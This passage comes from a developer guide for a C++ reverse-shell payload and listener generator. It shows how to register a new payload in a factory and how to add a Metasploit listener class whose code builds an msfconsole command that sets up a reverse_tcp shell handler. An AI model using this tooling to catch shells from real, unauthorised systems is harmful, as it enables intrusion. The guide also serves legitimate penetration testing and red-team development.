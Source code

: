 ### Step 5: Add to Factory Registration

The PayloadFactory uses a registry pattern. Add your payload to the factory constructor:

```cpp
// In PayloadFactory constructor
PayloadFactory::PayloadFactory() {
    // Existing registrations for 25+ payload types...
    registry_["python"] = std::make_unique<PythonPayload>();
}

## Adding New Listeners

### Step 1: Create the Listener Class

Create a new header file in `src/listeners/implementations/`:

```cpp
// src/listeners/implementations/Metasploit_Listener.h
#pragma once

#include "../../core/InterfaceListener.h"
#include "../../core/Options.h"
#include <string>

class MetasploitListener : public IListener {
public:
    std::string name() const override;
    std::string command(const Options& opts) const override;
};
```

### Step 2: Implement the Listener Class

```cpp
// src/listeners/implementations/Metasploit_Listener.cpp
#include "Metasploit_Listener.h"

std::string MetasploitListener::name() const {
    return "metasploit";
}

std::string MetasploitListener::command(const Options& opts) const {
    return "msfconsole -x \"use exploit/multi/handler; set payload linux/x64/shell/reverse_tcp; set LHOST " + 
           opts.host + "; set LPORT " + std::to_string(opts.port) + "; exploit\"";
}
```

### Step 3: Register the Listener

Add your listener to the factory in `ListenerFactory.h`:
